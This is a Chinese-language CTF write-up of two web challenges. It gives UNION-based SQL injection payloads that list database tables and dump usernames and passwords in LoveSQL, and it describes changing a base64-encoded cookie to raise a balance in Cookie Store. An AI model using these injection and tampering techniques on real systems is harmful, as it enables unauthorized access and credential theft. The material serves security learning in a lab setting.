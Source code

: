 ### [极客大挑战2019] LoveSQL

##### union联合注入

打开后发现是一个登陆界面，根据题目名称，猜测是SQL注入问题![image-20241130093908337](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130093908337.png)



![image-20241129202131909](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241129202131909.png)

查询表名：

1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()) %23

发现两个表 geekuser,l0ve1ysq1

![image-20241130100857393](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130100857393.png)

先查询第一个表中的字段名，出现三个字段id，username,password

![image-20241129202231564](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241129202231564.png)

再查询第二个表中字段名，其中同样是这三个

![image-20241130101821339](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130101821339.png)

获取字段信息

拿到flag：
1' union select 1,2,(select group_concat(id,username,password) from l0ve1ysq1) %23

![image-20241130103015330](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130103015330.png)

### [watevrctf-2019] Cookie Store 

打开后发现是一个购物？但只有50$(图中是我做完的)

![image-20241130182539961](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130182539961.png)

而flag cookie需要$100，根据题目信息应该是个cookie类题目

![image-20241130182805055](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130182805055.png)

利用bp抓包，发现cookie是一段base64编码的字段，解码后发现是

![image-20241130183127752](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130183127752.png)

尝试将money其改为100，再将其编码为base64,修改原本的cookie

![image-20241130183427317](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130183427317.png)

发现钱变多了，然后购买flag cookie即得到flag

![image-20241130183558134](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241130183558134.png)
